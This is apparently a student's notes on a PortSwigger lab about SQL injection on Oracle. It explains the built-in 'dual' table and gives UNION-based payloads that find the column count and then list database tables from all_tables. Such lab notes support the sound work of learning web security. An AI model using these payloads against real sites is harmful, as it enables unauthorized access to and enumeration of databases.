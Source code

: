 ![image-20250525025055431](./image/image-20250525025055431.png)

### [Lab 6: SQL injection attack, listing the database contents on Oracle](https://portswigger.net/web-security/sql-injection/examining-the-database/lab-listing-database-contents-oracle)

note: On Oracle databases, every `SELECT` statement must specify a table to select `FROM`. There is a built-in table on Oracle called `dual`: `UNION SELECT 'abc' FROM dual`

- Define the number of columns and return types: **2 columns and text type**

`'+UNION+SELECT+'abc','def'+FROM+dual--`

- retrieve the list of tables: 

`'+UNION+SELECT+table_name,NULL+FROM+all_tables--`

![image-20250525162423964](./image/image-20250525162423964.png)